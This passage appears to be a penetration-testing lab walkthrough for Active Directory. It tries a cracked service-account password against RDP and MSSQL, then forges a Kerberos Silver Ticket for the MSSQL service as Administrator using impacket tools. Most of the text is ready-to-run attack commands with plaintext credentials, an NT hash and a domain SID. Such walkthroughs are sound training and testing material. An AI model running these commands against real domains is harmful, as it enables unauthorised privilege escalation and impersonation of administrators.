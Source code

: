 ## 3. Using the Cracked Credential

**RDP Attempt (Fails):**

```bash
xfreerdp3 /cert:ignore /d:hirapo.com /u:sqlservice1 /p:'Shooting*' /v:sql01.hirapo.com
```

**MSSQLClient Attempt (Fails):**

```bash
impacket-mssqlclient -port 1433 'hirapo.com/sqlservice1:Shooting*@sql01.hirapo.com'
```

## 4. Setup for Silver Ticket Attack

**Get Domain SID:**

```bash
impacket-lookupsid hirapo.com/blee:Password1@dc.hirapo.com 999
```

**Result:**

```
Domain SID: S-1-5-21-3665665769-2465453898-254577537
```

## 5. Building a Silver Ticket

**Convert Password to NT Hash:**

```bash
mkpasswd --method=nt Shooting* | cut -d $ -f 4
```

**Result:** `65da88fb215c0ca9d556eea07fb47ab5`

**Generate Ticket:**

```bash
impacket-ticketer -domain hirapo.com -domain-sid S-1-5-21-3665665769-2465453898-254577537 -dc-ip dc.hirapo.com -nthash 65da88fb215c0ca9d556eea07fb47ab5 -spn MSSQLSvc/sql01.hirapo.com Administrator
```

## 6. Using the Silver Ticket

**Set Ticket:**

```bash
export KRB5CCNAME=Administrator.ccache
```

**Connect to SQL with Ticket:**

```bash
impacket-mssqlclient -k -no-pass sql01.hirapo.com
```
